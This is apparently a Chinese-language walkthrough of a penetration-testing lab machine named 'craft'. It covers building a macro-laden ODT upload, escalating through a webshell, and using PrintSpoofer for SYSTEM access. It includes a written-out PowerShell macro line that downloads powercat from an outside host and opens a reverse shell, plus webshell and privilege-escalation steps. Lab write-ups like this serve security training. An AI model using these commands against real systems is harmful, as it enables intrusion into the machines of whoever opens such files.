# 信息收集

## nmap



# craft-web

存在文件上传点，但是只能上传odt文件，并且经过测试是后端验证，而且想要解析为php很难绕过，可能还对content-type，mime头都做了检测，所以尝试生成odt后门文件




生成odt文件需要先安装 office 编辑程序

```
sudo apt-get install -y libreoffice-writer
```

然后创建带有宏的文件





宏脚本中写入反弹shell



```
shell("cmd /c powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/powercat.ps1');powercat -c 192.168.45.163 -p 80 -e cmd")
```

然后选择文件打开时运行宏

`tools->customize->上面一行最右边events->选择open Document->点击macro->选择刚才生成好的宏`，成功之后是这样的



然后保存文件，上传，对方打开文件时就会执行这个宏，从而反弹shell



# 提权

网站根目录是在C:\xampp\htdocs下,apache拥有完全控制权，Users组拥有写入权限

> * `(F)` → **完全控制**（Full control）
> * `(RX)` → **读取和执行**（Read and execute）
> * `(AD)` → **添加文件（写数据）**（Add file / Append data）
> * `(WD)` → **写数据**（Write data）



上传一个webshell到该文件夹下，然后利用浏览器访问webshell执行反弹shell，得到apache用户的shell



该用户具有`SeImpersonatePrivilege`权限



[Release PrintSpoofer · itm4n/PrintSpoofer](./https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)下载PrintSpoofer.exe

上传到靶机

```
运行：.\PrintSpoofer64.exe -i -c powershell.exe
```

成功提权

